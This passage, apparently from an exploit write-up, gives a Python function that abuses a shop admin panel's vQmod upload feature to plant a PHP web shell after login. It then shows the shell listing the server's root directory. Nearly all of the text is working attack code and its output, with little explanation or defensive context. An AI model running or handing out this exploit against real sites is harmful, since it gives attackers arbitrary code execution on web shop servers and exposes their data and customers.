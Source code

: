 Then after login, we have to exploit.

```python
def exploit(session:requests.Session, code:str="") -> None:
    file = {
        'vqmod': (f"{md5(code)}.php", f"<?php {code} ?>", "application/xml"),
        'token':get_token(f"{host}/shop/admin/?app=vqmods&doc=vqmods"),
        'upload':(None,"Upload")
    }

    if session.post(f"{host}/shop/admin/?app=vqmods&doc=vqmods", files=file, allow_redirects=False, proxies=proxies).status_code != 302:
        raise Exception("Error on upload!")
    shell = requests.get(f"{host}/shop/vqmod/xml/{md5(code)}.php", proxies=proxies)
    if shell.status_code != 200:
        raise Exception(f"Could not access webshell at: {host}/shop/vqmod/xml/{md5(code)}.php\nDEBUG: {shell.status_code}")
	#print(f"File available at: {host}/shop/vqmod/xml/{random}.php")
    
    # Print result of code
    return shell.text
```

Now we can supply arbitrary PHP-code to the exploit function and get the result quickly.

```php
root@darkness:~# python3 exploit.py
php> print_r(scandir("/"))
Array
(
    [0] => .
    [1] => ..
    [2] => bin
    [3] => boot
    [4] => cdrom
    [5] => dev
    [6] => etc
    [7] => home
    [8] => initrd.img
    [9] => initrd.img.old
    [10] => lib
    [11] => lib64
    [12] => lost+found
    [13] => media
    [14] => mnt
    [15] => opt
    [16] => proc
    [17] => root
    [18] => run
    [19] => sbin
    [20] => snap
    [21] => srv
    [22] => sys
    [23] => tmp
    [24] => usr
    [25] => var
    [26] => vmlinuz
    [27] => vmlinuz.old
)
```
